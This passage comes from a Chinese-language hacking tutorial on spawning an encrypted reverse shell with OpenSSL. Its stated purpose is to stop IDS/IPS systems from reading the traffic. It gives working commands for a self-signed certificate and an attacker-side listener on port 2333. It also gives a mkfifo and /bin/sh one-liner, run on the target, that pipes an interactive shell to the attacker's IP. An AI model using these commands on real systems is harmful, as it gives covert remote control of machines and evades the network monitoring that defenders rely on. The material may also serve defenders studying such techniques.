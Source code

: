 如上图所示，成功模拟在 shell 中出了一个终端设备，并成功执行了 sudo 等命令。

使用 OpenSSL 反弹加密 shell
---------------------

在上文中，我们总结了很多反弹 shell 得方法，但是我发现这种反弹 shell 方式都有一个缺点，那就是**所有的流量都是明文传输的**。这些通过 shell 通过传输的流量都可以被管理员直接抓取并理解，当目标主机网络环境存在网络防御检测系统时（IDS、IPS 等），网络防御检测系统会获取到我们的通信内容并进行告警和阻止。因此，我们需要对通信的内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密的 shell。

### OpenSSL 简介

在计算机网络上，OpenSSL 是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。

> SSL 协议要求建立在可靠的传输层协议 (TCP) 之上。SSL 协议的优势在于它是与应用层协议独立无关的，高层的应用层协议 (例如：HTTP，FTP，TELNET 等) 能透明地建立于 SSL 协议之上。SSL 协议在应用层协议通信之前就已经完成加密算法、通信密钥的协商及服务器认证工作。在此之后应用层协议所传送的数据都会被加密，从而保证通信的私密性。

在利用 OpenSSL 反弹 shell 之前需要先生成自签名证书：

```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

生成自签名证书时会提示输入证书信息，如果懒得填写可以一路回车即可：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3Np9naKiaB7Gwbzgde8aDL5FQwib6myhkClgliceHxqSQlRsyHS1c7oH7dg/640?wx_fmt=png)

### 使用 OpenSSL 反弹加密 shell

实验环境：Linux

目标机：

• 系统：Linux•IP：192.168.1.8

攻击机：

• 系统：Linux•IP：47.xxx.xxx.72

假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 2333 端口：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NprPGAYbyCmtebcjNze1vK9icbnD01yD2kZ7LKyjKcmcquUrXo1NOpUw/640?wx_fmt=png)

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 47.xxx.xxx.72:2333 > /tmp/s; rm /tmp/s
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NRxkNJlBXQwboBxXyZjI0rsJAc8xn6oVBelVyh5d3gcsfxZjWKIDpeA/640?wx_fmt=png)

这样攻击者便使用 OpenSSL 反弹了目标机一个加密的 shell。

Ending......
------------
